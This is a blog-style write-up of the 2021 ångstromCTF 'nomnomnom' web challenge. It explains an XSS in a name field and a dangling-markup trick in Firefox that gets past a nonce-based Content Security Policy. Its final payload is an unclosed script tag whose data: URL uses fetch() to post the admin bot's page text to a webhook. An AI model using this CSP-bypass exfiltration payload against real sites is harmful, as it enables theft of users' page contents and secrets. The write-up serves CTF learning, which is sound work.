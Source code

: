 ```yaml
---
title: "2021 ångstromCTF - nomnomnom Challenge"
layout: post
date: 2021-08-04 11:25
image: /assets/images/favicon/apple-touch-icon-76x76.png
headerImage: false
tag:
- CTF
- Web
- Dangling Markup
category: blog
author: Casparov
description: Writeup for the nomnomnom Web challenge in the 2021 ångstromCTF.
---
```



## <u> The Challenge </u>
I had the pleasure of participating in the 2021 ångstromCTF, and within it, the challenge I ended up enjoying the most was:

&nbsp;<img class="image" src="/assets/images/nomnomnomLanding.PNG">

## <u> Analysis </u>

To begin, as per usual for any web challenge I immediately looked at the source code, html code and the game itself. A few moments later it's safe to say that this challenge is an XSS challenge, due to this section inside the source code:

&nbsp;<img class="image" src="/assets/images/nomnomnomxss.PNG">&nbsp;

The game allows you to manually enter your own name within the browser window here, which provides an xss vector via the name variable. Any HTML tags inserted as name will be treated as actual HTML code!

## <u> Solution </u>

It took quite a while to find the solution for this challenge, and I started to go down an iframe rabbit hole. The main problem was the fact there was a `CSP (Content Security Policy)` that was blocking every script tag I provided because it required the usage of a randomly generated `nonce` as an attribute.

```html
<!DOCTYPE html>
<html>
	<head>
		<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-a03da7bf8449792432c9623fa0644875'">
		<title>snek nomnomnom</title>
	</head>
	<body>
		
		<h2>snek goes <em>nomnomnom</em></h2><br />
		Check out this score of 1! <br />
		<a href='/'>Play!</a> <button id='reporter'>Report.</button> <br />
		<br />
		This score was set by <script>alert(1)</script>
		<script nonce='a03da7bf8449792432c9623fa0644875'>
function report() {
	fetch('/report/62231e1a14a18abb', {
		method: 'POST'
	})
}

document.getElementById('reporter').onclick = () => { report() }
		</script> 
		
	</body>
</html>
```
<img class = "image" src="/assets/images/nomnomnomnonce2.PNG">&nbsp;

That was until I found out that unfinished script tags ate (haha! nom'd) the script tag that was below it. The good thing about this is that it meant I could inject javascript code into the `<script src>` attribute with the nonce as the attribute of it, due to firefox being very weird with a topic called Dangling Markup.

The solution therefore is called a Dangling Markup Injection.
The report button sent a Simulated browser in admin context via Puppeteer within firefox, so the xss could be used to steal the "admin's" browser window, which was the only thing that displayed the flag, as seen three images above inside the `extra` variable.

In order to steal the admin's browser window though, we need to send their `document.body.innerText` to a webhook. Luckily, https://webhook.site is an easy solution to this and so the final solution to this problem is:

```html
<script src="data:text/javascript, fetch('webhookurlgoeshere', {method: 'POST', mode: 'no-cors', body: document.body.innerText})"
```

The `no-cors` mode basically allows us to bypass any problems with `CORS (Cross-Origin-Resource-Sharing)` which in turn stops any `Access-Control-Allow-Origin` errors.

But wait... that has nom'd everything including the report button functionality! Easy fix: just copy and paste the report function into the firefox console and run the function!

```javascript
function report() {
    fetch('/report/f8f9270fe102e65a', {
        method: 'POST'
    })
}
```

&nbsp;<img class = "image" src="/assets/images/report.PNG">&nbsp;

Once you have done that, your webhook.site should have recieved a request with the flag in it!

<img class = "image" src="/assets/images/sol.PNG">

Special thanks to Clanger and Feldma from my team for helping me with this challenge for a long time. This challenge ended up taking me a good 2 days due to my lack of knowledge about Dangling Markup. But it was still incredibly fun none-the-less!